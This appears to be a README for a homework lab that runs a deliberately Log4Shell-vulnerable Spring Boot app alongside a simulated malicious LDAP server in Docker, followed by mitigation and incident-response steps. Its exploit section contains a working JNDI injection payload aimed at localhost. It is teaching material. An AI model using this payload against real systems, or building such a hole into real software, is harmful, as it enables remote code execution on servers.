 # Log4Shell Vulnerable Environment

This project demonstrates the Log4Shell vulnerability in a Spring Boot application using Log4j 2.14.1 and simulates an attacker-controlled LDAP server.

## Project Structure
- `app/` — Java application vulnerable to Log4Shell
- `ldap_server.py` — Simulated malicious LDAP server
- `docker-compose.yml` — Launches both services

## How to Run It Locally
1. Make sure Docker Desktop is running.
2. Run from the project root:
   ```bash
   docker compose up --build
   ```

## Exploit
Visit:
```
http://localhost:8080/vulnerable?userInput=${jndi:ldap://localhost:1389/a}
```

## Mitigation
- Upgrade to Log4j 2.17.1+
- Add JVM option `-Dlog4j2.formatMsgNoLookups=true`
- Sanitize inputs


##  How to Run in Docker Desktop (Step-by-Step)

### Step 1: Prerequisites
- Ensure Docker Desktop is installed and running.

### Step 2: Open a Terminal
Navigate to the project folder:
```bash
cd path/to/log4shell-homework
```

### Step 3: Start the Environment
```bash
docker compose up --build
```
This will build the Java app and start both the vulnerable app and LDAP exploit server.

### Step 4: Test the Vulnerability
Open your browser and visit:
```
http://localhost:8080
```
Then test the exploit:
```
http://localhost:8080/vulnerable?userInput=${jndi:ldap://localhost:1389/a}
```

### Step 5: Simulate Incident Response (MITRE REACT)

####  Detect
```bash
docker logs log4shell-homework-vulnerable-app-1 | findstr jndi
```

####  Contain
```bash
docker stop log4shell-homework-vulnerable-app-1
```

####  Eradicate
```bash
docker ps -a
```

####  Recover
```bash
docker compose down
```
Then restart:
```bash
docker compose up -d --build
```
Test with:
```bash
curl "http://localhost:8080/vulnerable?userInput=HelloWorld"
```

### Step 6: Shut Down
```bash
docker compose down
```

This completes the Log4Shell simulation and mitigation cycle.
